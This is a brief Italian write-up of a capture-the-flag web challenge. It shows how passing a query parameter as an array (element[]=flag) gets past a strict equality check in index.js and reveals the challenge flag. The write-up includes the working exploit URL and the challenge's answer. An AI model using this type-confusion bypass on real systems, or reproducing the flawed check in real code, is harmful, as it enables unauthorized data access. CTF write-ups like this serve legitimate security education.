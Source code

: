 > Impossibile accedere alla flag, davvero, impossibile fare altrimenti.

Passando "flag", riceviamo un "you wish". Dal file index.js dato nella challenge, ci concentriamo sulla gestione delle POST:

```javascript
const element = req.query.element;
var content = "";
if (element === "flag") {
  content = "you wish";
} else {
  content = data[element] || "Element not found";
}
```

Possiamo passare element[]=flag, così il confronto con triplo uguale darà false ma quando andremo ad usare element come indice dell'array questo verrà convertito nella stringa flag, quindi: `http://easy-access.challs.olicyber.it/element?element[]=flag`:

```
Element: flag
Content: flag{¿who_does_not_love_easy_access?}
```
